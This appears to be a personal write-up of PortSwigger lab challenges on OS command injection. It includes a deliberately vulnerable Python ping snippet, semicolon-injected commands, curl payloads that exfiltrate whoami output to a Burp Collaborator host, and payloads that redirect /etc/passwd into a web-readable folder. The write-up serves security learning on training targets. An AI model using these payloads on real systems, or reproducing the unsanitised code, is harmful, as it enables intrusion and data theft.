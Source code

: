 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

  ![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

  ![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
  ![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

  ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

  ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

  ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

   ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

  ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)

### Challenge 4

Challenge description: Blind OS command injection with output redirection

  ![2023-10-24_15-54](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ceedb1e0-ac2c-4910-8c84-b937bfa72b04)

- The main goal of the challeenge is to redirect uur output to the writable folder "/var/www/images"
- Intercept the feedback request and forward to the repeater

  ![2023-10-24_16-51](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0a43bfb-3541-4357-a4c3-a6e68249df21)

- Use this linux command to redirect whoami output to a file in /var/www/images

        ;touch${IFS}/var/www/images/resullt.txt;whoami${IFS}>${IFS}/var/www/images/result.txt

  ![2023-10-24_16-57](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a0a1c81c-e08b-49cb-98cb-516778b9b206)

- I noticed a particular link is vulnerable to Local File Include and be used to read local files

      https://0a880060030a479a803ac6e800e000e5.web-security-academy.net/image?filename=result.txt

- I redirected the output of /etc/passwd to result.txt and I got this output after visiting the link

  ![2023-10-24_17-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a3e4891c-aaf4-4c1d-8404-a36ac3aeb30a)

- I noticed that I could not redirect the output of 'whoami' but I was able to redirect the contents of /etc/passwd.Challenge solved

  ![2023-10-24_17-29](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a8ab9448-fbcb-4f90-99da-3ccfd8ad231d)

        
  

